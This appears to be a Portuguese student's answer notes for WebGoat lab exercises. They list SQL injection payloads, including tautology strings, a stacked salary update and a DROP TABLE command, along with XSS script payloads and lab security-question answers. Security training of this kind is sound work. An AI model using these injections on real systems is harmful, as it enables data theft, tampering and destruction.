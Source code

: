 #P1.1

Passos seguidos para a reallização da pergunta por ordem de execução:

2)  select department from employees where userid=96134;  
	Resultado: Department markting  
	
3) update employees set department='Sales' where first_name='Tobi';  
 	Resultado: 89762  Tobi  Barnett  Sales  77000  TA9LL1  
 	
4) alter table employees add phone varchar(20);  
	Resultado:  ALTER TABLEemployees ADD phone varchar(20)
	
5) GRANT ALTER TABLE TO 'UnauthorizedUser';  
	Resultado:  GRANT ALTER TABLE TO UnauthorizedUser
	
9) SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1';  
	Resultado:  Toda a user_data porque  '1' = '1' é sempre verdade
	
10) SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1;  
	Resultado:  toda a user_data porque  1 = 1 é sempre verdade
	
11) ' OR '1' = '1;    
	Resultado: "You have succeeded!You have successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!"
	
12) '; update employees set salary = 120000 where first_name = 'John
	Resultado:  salario de todos os Johns modificado
	
13) ';drop table access_log;'
	Resultado: tabela apagada



#P2.1

2) Sim. As cookies eram as mesmas.
	
7) ```<script>alert("XSS")</script>  ```  
	Resultado: O campo "Enter your credit card number" era vulnerável
	

10)
  
1. Abrir o Debugger no browser
2. encontrar o ficheiro goatApp/View/GoatRouter.js
3. Inserir na caixa da rota 'test/:param':'testRoute'. o comando start.mvc#test  

	
11) Inserir o URL ```http://localhost:8080/WebGoat/start.mvc#test/<script>webgoat.customjs.phoneHome()<%2Fscript> ``
	Resultado: phone home said {"lessonCompleted":true,"feedback":"Congratulations. You have successfully completed the ass<ignment.","output":"phoneHome Response is 1177239543"}
	
12) 
	1. Solução 4
	2. Solução 3
	3. Solução 1
	4. Solução 2
	5. Solução 4

	
	
#P3

1. "There was an errorwhile sending email. Is webwolf running?"

2. Autenticação:
	1. username: admin; favorite color: green 
	2. username: jerry; favorite color: orange
	3. username: tom;   favorite color: purple







#P4

